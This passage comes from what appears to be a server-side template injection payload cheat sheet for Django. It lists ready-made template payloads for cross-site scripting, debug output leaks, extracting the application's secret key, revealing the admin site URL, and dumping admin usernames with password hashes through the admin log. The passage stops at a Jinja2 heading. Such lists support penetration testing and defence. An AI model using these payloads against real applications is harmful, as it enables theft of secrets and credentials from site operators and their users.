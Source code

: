 #### Django Templates for post-exploitation

```
# Variables
{{ variable }}
{{ variable.attr }}

# Filters
{{ value|length }}

# Tags
{% raw %}
{% csrf_token %}
{% endraw %}
```

#### Cross-site scripting

```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

#### Debug information leak

```
{% raw %}
{% debug %}
{% endraw %}
```

#### Leaking app’s Secret Key

```
{{ messages.storages.0.signer.key }}
```

#### Admin Site URL leak

```
{% raw %}
{% include 'admin/base.html' %}
{% endraw %}
```

#### Admin username and password hash leak

```
{% raw %}
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
{% endraw %}
```



## Jinja2(Python) Template Injection
